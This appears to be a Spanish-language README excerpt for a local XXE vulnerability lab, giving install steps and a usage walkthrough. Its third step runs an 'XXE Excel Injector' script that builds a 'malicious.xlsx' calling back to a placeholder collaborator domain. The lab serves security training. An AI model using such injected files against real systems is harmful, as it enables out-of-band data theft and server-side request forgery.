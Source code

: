 ### Instalación Local

1. **Clonar/Copiar los archivos:**
   ```bash
   # Los archivos ya están creados en tu sistema
   cd /Users/jesusespinoza/xxe_lab_app
   ```

2. **Configurar servidor web local:**
   ```bash
   # Opción 1: Servidor PHP integrado (recomendado para testing)
   php -S localhost:8080
   
   # Opción 2: Apache/Nginx
   # Copiar la carpeta al directorio web del servidor
   ```

3. **Verificar permisos:**
   ```bash
   chmod 755 uploads/ logs/
   chmod 644 *.php *.html css/*.css
   ```

4. **Acceder a la aplicación:**
   - Abrir navegador en: `http://localhost:8080`

### Instalación en Servidor Web

```bash
# Para Apache/Nginx
sudo cp -r xxe_lab_app/ /var/www/html/xxe-lab/
sudo chown -R www-data:www-data /var/www/html/xxe-lab/
sudo chmod 755 /var/www/html/xxe-lab/uploads /var/www/html/xxe-lab/logs
```

## 🧪 Cómo Usar el Laboratorio

### Paso 1: Generar Archivo Excel Base
```bash
# Usar el script incluido para crear un Excel de prueba
python3 /Users/jesusespinoza/create_test_excel.py
```

### Paso 2: Inyectar Payload XXE
```bash
# Usar el XXE Excel Injector
python3 /Users/jesusespinoza/xxe_excel_injector.py \
  -i test_input.xlsx \
  -o malicious.xlsx \
  -u http://YOUR-COLLABORATOR-DOMAIN.com
```

### Paso 3: Probar la Vulnerabilidad
1. Abrir la aplicación web
2. Subir el archivo `malicious.xlsx`
3. Observar los resultados y indicadores XXE
4. Verificar logs/requests en tu servidor colaborator
